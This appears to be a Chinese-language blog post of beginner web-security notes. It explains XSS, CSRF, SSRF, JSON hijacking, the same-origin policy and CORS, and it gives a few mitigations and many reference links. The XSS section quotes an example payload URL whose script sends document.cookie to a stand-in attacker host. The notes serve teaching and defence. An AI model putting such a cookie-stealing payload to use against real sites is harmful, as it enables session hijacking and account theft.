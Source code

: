```yaml
---
title: "網頁安全"
date: 2019-09-02T05:44:11.000Z
published: 2019-09-02T05:44:11.000Z
author: f6bfb5
summary:
layout: blog
---
```


## XSS

- Cross-site scripting
- 利用動態產生內容的網頁漏洞，注入惡意腳本的攻擊手法
- 例如使用短網址包覆帶有惡意腳本的網址：
  `http://app.com/?name=?<script>...attack.com/bad.php?data=document.cookie;</script>`
- 攻擊者便可取得使用者的 Cookie，並藉此盜用相關資料
- 可以針對特殊文字進行處理 (例如 `<`、`&`) 防止攻擊。

## CSRF

- Cross-site request forgery（跨站請求偽造）
- 利用網頁應用本身的漏洞，進行原定以外處理的攻擊手法
- 例如使用短網指包覆指定行為的網址：`http://app.com/post/`
- 導致使用者身份被盜用，從而進行非原定的行為，例如留下犯罪宣言的訊息
- 可以在 request 裡加入 token 驗證這個行為是否真的來自該使用者
- [これで完璧！今さら振り返る CSRF 対策と同一オリジンポリシーの基礎](https://qiita.com/mpyw/items/0595f07736cfa5b1f50c)

## XSS 和 CSRF 的差異

| 觀點     | XSS                           | CSRF                       |
| -------- | ----------------------------- | -------------------------- |
| 漏洞     | 網頁應用程式                  | 網頁應用程式               |
| 執行機制 | 造訪有問題的網址              | 造訪有問題的網址           |
| 執行源頭 | 網頁瀏覽器 (Client)           | 網頁伺服器 (Server)        |
| 執行內容 | JavaScript 所能執行的任意內容 | 網頁應用程式內所定義的處理 |
| 執行前提 | 無                            | 受害者需先登入網頁應用程式 |

## JSON Hijacking

- [Json Hijacking 簡介 « 關於網路那些事...](https://adon988.logdown.com/posts/7820118-introduction-to-json-hijacking)

## SSRF

- Server-side request forgery
- 利用公開網路與內部網路溝通的漏洞，進行繞過權限認證的攻擊方式

## [同源政策（Same-Origin Policy）](https://developer.mozilla.org/zh-TW/docs/Web/Security/Same-origin_policy)

### 什麼是 CORS（Cross-Origin Resource Sharing，跨來源資源共用）？

### 解決方案

#### 從 API 後端開放權限

#### CORS-anywhere

```javascript
// use cors-anywhere to fetch api data
const cors = "https://cors-anywhere.herokuapp.com/";
// origin api url
const url = "https://tw.rter.info/capi.php?=1568944322585";

// fetch api url by cors-anywhere
axios.get(`${cors}${url}`).then(
  (response) => {
    const msg = response.data;
    document.body.innerHTML = JSON.stringify(msg);
  },
  (error) => {}
);
```

### 參考文章

- [\[教學\] CORS 是什麼? 如何設定 CORS? | Shubo’s Notes](https://shubo.io/what-is-cors/)
- [輕鬆理解 Ajax 與跨來源請求](https://blog.techbridge.cc/2017/05/20/api-ajax-cors-and-jsonp/)
- [原來 CORS 沒有我想像中的簡單](https://blog.techbridge.cc/2018/08/18/cors-issue/)
- [和 CORS 跟 cookie 打交道](https://medium.com/d-d-mag/%E5%92%8C-cors-%E8%B7%9F-cookie-%E6%89%93%E4%BA%A4%E9%81%93-dd420ccc7399)
- [新的取消請求方式 - AbortController | 半熟前端](https://blog.kalan.dev/abort-controller/)
- [这波跨域不亏 · Issue #9 · xixigiggling/my-ice-cream](https://github.com/xixigiggling/my-ice-cream/issues/9)

## 相關文章

- [安全な Web サイトのつくりかた　ざっくりまとめ part1](https://qiita.com/E-46/items/93199f38bdacd6b6076a)
- [安全な Web サイトのつくりかた　ざっくりまとめ part2](https://qiita.com/E-46/items/aa43b6a01de8ab205591)
- [個人開発でも最低限やっておくべきインフラレベルでのセキュリティ対策](https://qiita.com/uichi/items/c34536b66101e9440cf2)
- [Web セキュリティ覚書 : "HTTPS" 編 [ 初学者向け ]](https://qiita.com/Tsutou/items/cea87dbab0f3d0080422)
- [Web セキュリティ覚書 : "攻撃" 編 [ 初学者向け ]](https://qiita.com/Tsutou/items/4fd498f8ab2638bd5650)
- [Same Origin Policy 同源政策 ! 一切安全的基礎](https://medium.com/@jaydenlin/same-origin-policy-%E5%90%8C%E6%BA%90%E6%94%BF%E7%AD%96-%E4%B8%80%E5%88%87%E5%AE%89%E5%85%A8%E7%9A%84%E5%9F%BA%E7%A4%8E-36432565a226)
- [3 分でわかる XSS と CSRF の違い](https://qiita.com/wanko5296/items/142b5b82485b0196a2da)
- [SSRF 基礎 - Speaker Deck](https://speakerdeck.com/hasegawayosuke/ssrfji-chu)
- [URL の取り扱いには要注意！ SSRF の攻撃と対策 | yamory Blog](https://yamory.io/blog/about-ssrf/)
